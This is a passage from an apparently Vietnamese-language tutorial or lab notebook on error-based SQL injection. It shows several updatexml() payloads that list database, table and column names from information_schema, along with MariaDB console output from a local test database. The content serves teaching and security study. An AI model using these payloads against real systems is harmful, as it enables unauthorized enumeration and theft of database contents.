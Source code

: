   - Payload 2:

    ```mysql
    select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 4,1)),null);
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 3,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~sqlinjection~'
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 4,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~xssuser~'
    ```

  - Lấy ra tên của các *database*

  - Payload 3:

    ```mysql
    select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 0,1)),null)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 0,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~menu~'
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema='xssuser' LIMIT 1,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~user~'
    ```

  - Lấy ra tên của các *table* dựa trên *database*

  - Payload 4:

    ```mysql
    select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 0,1)),null)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 0,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~ID~'
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 1,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~NAME_MENU~'
    ```

